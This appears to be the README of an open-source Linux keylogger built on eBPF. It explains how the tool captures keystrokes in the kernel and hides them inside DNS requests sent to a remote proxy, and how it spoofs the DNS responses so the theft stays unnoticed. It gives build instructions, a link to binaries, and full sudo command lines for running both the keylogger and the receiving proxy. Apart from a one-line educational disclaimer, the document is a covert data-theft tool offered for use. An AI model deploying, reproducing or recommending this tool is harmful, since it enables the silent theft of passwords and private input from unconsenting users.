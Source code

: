 <div align="center">
  <h1> Tamanoir <br> A KeyLogger using eBPF 🐝 </h1>
  <img src="https://github.com/user-attachments/assets/47b8a0ef-6a52-4e2d-8188-e77bb9e98d79" style="width: 40%; height: 40%"</img>
  <p><small>
    <i>
      A large anteater of Central and South America, Myrmecophaga tridactyla
    </i>
  </small></p>
</div>

## 💡Overview

<div align="center">
  <img src="https://github.com/user-attachments/assets/24f80020-9d60-4f2a-825b-ed56574dfb24" </img>
</div>

1. Capture keystrokes and store them in a queue in the kernel.
2. Intercept DNS requests and inject the captured keystroes in the DNS payload, then redirect the request to the designated remote server acting as a DNS proxy.
3. On the remote server, extract the keys from the DNS payload and send a valid DNS response.
4. Intercept the response and modify its source address so the initial request will complete successfully.

<br>

## 🚀 Setup

You need a Linux based OS.

### ⚒️ Build from source

To build from source, make sure you have:

- [bpf-linker](https://github.com/aya-rs/bpf-linker) installed.
- [Rust](https://www.rust-lang.org/tools/install) installed with `nightly` toolchain.

#### 1. Build ebpf program

```
cd tamanoir-ebpf
cargo build --release
```

#### 2. Build user space program

```
cargo build --release
```

This will produce an executable file at `target/release/tamanoir` that you can copy to a directory in your `$PATH`

#### 3. Build proxy program

```
cargo build -p tamanoir-proxy --release
```

This will produce an executable file at `target/release/tamanoir-proxy` that you can copy to a directory in your `$PATH`

### 📥 Binary release

You can download the pre-built binaries from the [release page](https://github.com/pythops/tamanoir/releases)

<br>

## 🪄 Usage

### Tamanoir

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip <DNS proxy IP> \
              --hijack-ip <locally configured DNS server IP> \
              --layout <keyboard layout> \
              --iface <network interface name>
```

for example:

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip 192.168.1.75 \
              --hijack-ip 8.8.8.8 \
              --layout 0 \
              --iface wlan0
```

Currenly, there are two supported keyboard layouts:

`0` : qwerty (us)

`1` : azerty (fr)

<br>

### DNS Proxy

> [!NOTE]
> Make sure port 53 is available

```
RUST_LOG=info sudo -E tamanoir-proxy \
              --port <port> \
              --dns-ip <DNS server ip> \
              --payload-len <payload length>
```

for example:

```
RUST_LOG=info sudo -E tamanoir-proxy \
              --port 53 \
              --dns-ip 1.1.1.1 \
              --payload-len 8
```

<br>

## ⚠️ Disclaimer

`Tamanoir` is developed for educational purposes only

<br>

## ✍️ Authors

[Badr Badri](https://github.com/pythops)

[Adrien Gaultier](https://github.com/adgaultier)

<br>

## ⚖️ License

GPLv3
